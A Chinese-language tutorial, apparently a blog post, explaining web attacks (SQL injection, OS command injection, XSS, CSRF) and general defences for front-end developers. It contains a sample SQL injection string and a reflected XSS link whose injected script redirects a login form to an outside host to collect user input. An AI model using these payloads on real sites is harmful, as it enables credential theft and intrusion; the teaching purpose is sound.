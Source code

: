 ## 引言
关于 Web 安全方面的问题，我想从事 Web 前端开发的同学，或多或少都会有些了解，例如 XSS （跨站点脚本攻击）、CSRF（跨站点请求伪造）、SQL 注入、HTTP 报文劫持等等。但是，我想详细起来说，大家可能会只是说的模模糊糊的。

首先，针对 Web 的攻击可以分为这两种模式：
- 主动攻击，即攻击者通过 Web 应用直接将攻击代码传入，例如 SQL 注入、OS 命令注入
- 被动攻击，即攻击者利用**陷阱**的方式执行攻击代码，例如 XSS、CSRF

## 主动攻击
### SQL 注入
SQL 注入，即针对 Web 应用使用的数据库，通过注入一些非法的 SQL 语句，从而获取、破坏 Web 应用的数据库。
例如：
在前端，我们通常会存在这样的场景，通过查询一个人的名字，然后从一个很多数据的列表中找到这条记录，而我们传给后端的通常是一个键值对，然后后端根据这个键值对去数据库里查找，例如查找 username 为 wjc 的这一条数据，对应的 SQL 会是这样：
```javascript
SELECT * FROM student WHERE username = 'wjc'
```
但是如果我此时传的 username 的 value 为 wjc'--，那么对应的 SQL 会是这样：
```javascript
SELECT * FROM student WHERE username = 'wjc'--'
```
如果此时 username = 'wjc' 后面如果还存在其他条件，那么都会被 -- 注释掉（当然对于我们这个 SQL 并没有影响）

### OS 命令注入

OS 命令注入（OS Command Inject），指的是攻击者通过 Web 应用执行非法的 OS 命令，例如可以通过邮件注入 OS 命令来获取其他目录的信息并发送给其他邮件。（具体的例子就补列举了哈）

## 被动攻击
### XSS 跨站点脚本攻击
XSS 跨站点脚本攻击（Cross-Site Scripting, XSS），常见的就是一些 Web 应用存在动态地创建 HTML 的情况，攻击者通过这来创建一些非法的 HTML 和 JavaScript。
例如：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200204145215149.png)
此时对应的 HTML 代码：
```javascript
 	<form method="post" action="http://localhost/login">
		姓名：<input type="text" name="username" value="wjc"/>
		<input type="submit" value="提交" id="login"/>
	</form>
```
那么这个时候我们就可以给用户一个我们注入 Script 标签的链接，例如：
```javascript
http://localhost/login?username=wjc"/><script>var formO = document.getElementById('login');formO.action="http://abcadada.com";formO.method="get";</script><img src="
```
如果此时点击这个链接，那么会这个时候 Script 标签里面的 JS 代码就会运行起来，此时的 HTML 代码会是这样的：
```javascript
 	<form method="post" action="http://localhost/login">
		姓名：<input type="text" name="username" value="wjc"/><script>var formO = document.getElementById('login');formO.action="http://abcadada.com";formO.method="get";</script><img src=""/>
		<input type="submit" value="提交" id="login"/>
	</form>
```
那么此时这个页面的提交地址已经发生了变化，如果此时用户将自己的信息通过这个表单提交了，那么攻击者就可以收集到用户的信息。

### CSRF 跨站点请求伪造
CSRF 跨站点请求伪造（Cross Site Request Forgery），通常是利用用户的登录态，来发送一些恶意的请求，例如银行转账、信息删除等等。
例如：
我们在登录一些网站后，会在本地保存我们的登录态，这样在登录态没有失效的区间内，我们下次进入网站的时候就可以不用手动登录，从而自动登录。例如通过 Cookie 存 SessionID 的方式登录，在每一次请求的时候都会带上这个 Cookie，然后后端去读这个 Cookie 识别当前用户。
所以，这就会存在这样的场景，当我们登录 A 网站后，我们去浏览 B 网站的时候（此时 B 网站是一个恶意网站），当我们点击这个网站一些链接的时候，它就会利用这个 Cookie 去请求 A 网站的接口，从而实现非法的操作。

## 防御措施
其实，对于上面所说的攻击，具体对应的防御的方式，也不需要死记硬背。如果是一些脚本注入或者 SQL 注入之类的，我们所需要做的就是针对一些非法的输入进行限制或者转义。而对于一些和 HTTP 报文相关的，我们就需要利用请求报文或者响应报文来判断，例如 CSRF 请求伪造，我们就可以通过报文中的 referer 进行校验，又或者和 cookie 相关的，可以对cookie 的域名限制和设置 HttpOnly 等等。